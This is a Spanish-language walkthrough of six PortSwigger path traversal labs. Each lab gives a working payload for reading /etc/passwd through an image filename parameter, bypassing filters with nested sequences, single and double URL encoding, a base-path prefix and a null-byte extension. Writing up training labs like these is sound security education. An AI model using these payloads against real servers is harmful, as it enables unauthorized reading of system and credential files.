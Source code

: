 
# PortSwigger - Path Traversal Labs

## Lab 1
Accedemos al "/etc/passwd" de la máquina víctima a través de un navegador. La vulnerabilidad se encuentra en las imágenes. Al ingresar, encontramos un marketplace donde al acceder a una imagen del producto, notamos que en la URL tenemos "mage?filename=42.jpg".

Abrimos Burp Suite e interceptamos la petición para facilitar las pruebas.

Luego del "=", introducimos la siguiente petición:

```plaintext
GET mage?filename=../../../../../../../etc/passwd
```

Ahora podemos leer el /etc/passwd de esta máquina. Así concluye el laboratorio.

## Lab 2
En este laboratorio, la vulnerabilidad persiste al abrir la imagen, pero esta vez el parámetro para acceder a /etc/passwd está bloqueado. Sin embargo, existen diversas formas de eludir esta barrera. En este caso, la solución fue la siguiente:

```plaintext
GET /image?filename=//.//.//.//.//.//./etc/passwd
```

## Lab 3
Este laboratorio realiza prácticamente lo mismo que el anterior, pero bloquea "../". Para superar esta limitación, utilizamos el siguiente parámetro:

```plaintext
GET /image?filename=....//....//....//....//....//etc/passwd
```

Esto hace que, al bloquear un "../", continúe ingresando otro "../" debido a la duplicación.

## Lab 4
En este laboratorio, ya no podemos eludir el payload de la misma manera; está mejor sanitizado. Ahora, ni "/" ni ".." son reconocidos. Para superar esto, debemos URLencodear el payload y así sortear la barrera.

Payload original:
```plaintext
../../../../../etc/passwd
```

URLencode:
```plaintext
%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%65%74%63%2f%70%61%73%73%77%64
```

Doble URLencode:
```plaintext
%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%32%65%25%32%65%25%32%66%25%36%35%25%37%34%25%36%33%25%32%66%25%37%30%25%36%31%25%37%33%25%37%33%25%37%37%25%36%34
```

Con este procedimiento, obtenemos la ruta de "/etc/passwd".

## Lab 5
Aunque este laboratorio no es difícil de resolver, ofrece otra opción a considerar. Podemos dar una ruta donde suele estar la imagen para luego acceder a "/etc/passwd". La ruta por defecto suele ser "/var/www/images", pero puede variar según el servidor utilizado.

```plaintext
GET /image?filename=/var/www/images/../../../../../../../etc/passwd
```

De esta manera, accedemos a "/etc/passwd" y resolvemos el laboratorio.

## Lab 6
En este laboratorio, nos presentan otra variante para acceder a "/etc/passwd". Esta opción consiste en colocar una extensión de imagen al final de la petición para confundirla y eludir el acceso.

```plaintext
GET /image?filename=../../../../../../etc/passwd%00.jpg
```

Nota: "/etc/passwd%00.png" - El "%00" se utiliza para representar el byte nulo justo después de la extensión ".png". Esto puede ser útil en ciertos casos como técnica para intentar engañar a sistemas mal configurados o mal programados que manipulan cadenas de caracteres de manera insegura.
